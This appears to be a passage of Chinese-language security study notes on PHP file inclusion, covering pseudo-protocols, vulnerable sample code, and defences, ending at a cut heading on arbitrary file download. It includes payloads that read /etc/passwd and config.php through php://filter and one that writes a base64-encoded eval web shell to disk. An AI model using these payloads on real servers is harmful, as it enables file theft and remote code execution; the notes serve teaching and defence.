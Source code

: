 ```php
#远程文件包含需要php.ini中设置如下
allow_url_fopen=On
allow_url_include=On
```

## php伪协议

- `file://`访问操作系统本地文件的文件系统`file:///etc/passwd、file://C:\Windows\system.ini`
- `http://`访问http(s)协议的url`?page=http://file.local.com/LFI/phpinfo.txt`
- `ftp://`访问ftp(s)协议的url`?page=ftp://user:pass@ftp.local.com/phpinfo.txt`
- `php://`访问各个I/O流`php://filer php://input`
- `zlib://、zip://`压缩流协议`zip://压缩包绝对路径#压缩文件内的子文件名`
- `data://`数据流协议`data://text/plain;base64,YWJjZA==`
- `glob://`php自带的文件目录管理协议，查找匹配的文件路径模式
- `phar://`php归档（解压）协议`phar://压缩包/压缩文件内的子文件名`

## 例子

```php
<?php
$filename=$_REQUEST['file'];
$file_contents=file_get_contents($filename);
echo $file_contents;
?>
```

- 用`file=php://filter/read=/resource=../config.php`来读取文件
- 用`file=php://filter/read=convert.base64-encode/resource=../config.php`来读取base64编码后的文件

```php
<?php
$filename=$_REQUEST['file'];
$txt=$_GET['txt'];
file_put_contents($filename,$txt);
?>
```

- 用`file=php://filter/write=convert.base64-encode/resource=../info.php&txt=PD9waHAgQGV2YWwoJF9SRVFVRVNUWydjbWQnXSk7Pz4=`来将`<?php @eval($_REQUEST['cmd']);?>`base64编码后的内容写入info.php

## 文件包含防御

- 保证参数用户不可控、不可构造
- 对参数判断，过滤`'.','..','/','\'`字符，同时使用basename()函数处理参数
- 避免使用动态包含，在需要包含的页面中对所有变量初始化

# 任意文件下载或读取漏洞

## 攻击利用点

### windows
